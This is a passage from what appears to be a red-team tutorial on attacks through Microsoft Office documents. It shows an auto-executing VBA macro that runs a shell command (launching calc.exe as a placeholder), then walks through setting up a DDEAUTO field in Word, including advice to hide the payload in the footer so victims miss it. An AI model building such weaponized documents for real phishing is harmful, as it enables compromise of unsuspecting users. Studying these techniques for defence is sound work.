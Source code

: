```
End Sub

Private Sub Auto_Exec()
Test
End Sub

Private Sub Test()
Shell ("cmd /c calc.exe")
End Sub
```
Save the document as `.doc` or `.docm` and run it!

Enabling the content upon opening the document will execute our code.
![image](https://user-images.githubusercontent.com/56353946/203389403-6939fd42-fdb2-443e-9514-df0b28870163.png)
![image](https://user-images.githubusercontent.com/56353946/203389593-84652bf9-9070-4422-9f4f-e41cb90a0032.png)


You can learn VBA coding from the resouces below:
1. https://www.trustedsec.com/blog/intro-to-macros-and-vba-for-script-kiddies/
2. https://www.trustedsec.com/blog/the-vba-language-for-script-kiddies/
3. https://www.trustedsec.com/blog/developing-with-vba-for-script-kiddies/

# DDE attack
This attack was commonly use by attacker out there, where once a victim was phished by clicking the "yes" button in the Warning message by Office, they can immidiately being compromised by the attacker. But, as far as I'm concerned. This vulnerability have been patched by Microsoft. So, the older version of Microsoft Office still vulnerable to this.

DDEAUTO, short for automatic dynamic data exchange, is a command you can put right inside the data of an Office file to get it to pull data out of another file. In our context DDE works by executing command, that will provide the data (data provider).

DDE attack can be done in Microsoft Word and Excel. Let's talk about DDE in Word.

## Microsoft Word
Go to `Insert` tab -> Click on `Quick Parts` -> Click on `Field`:
![image](https://user-images.githubusercontent.com/56353946/203390140-4f2420b5-fc30-460b-8a3a-f56093e7a6b9.png)

You can setup the `DDEAUTO` payload at footer of our document to avoid victim not notice any DDEAUTO mechanism.

Choose `= (Formula)` field names and click `OK` button:
![image](https://user-images.githubusercontent.com/56353946/203390318-197af9c3-9704-473d-8531-21106ae62ebd.png)

After that, you should see a Field inserted in the document with an error `!Unexpected End of Formula`.

Right-click the Field, and choose `Toggle Field Codes`:
![image](https://user-images.githubusercontent.com/56353946/203390602-2b00222b-db27-4af9-899c-f8f9960ec6d4.png)

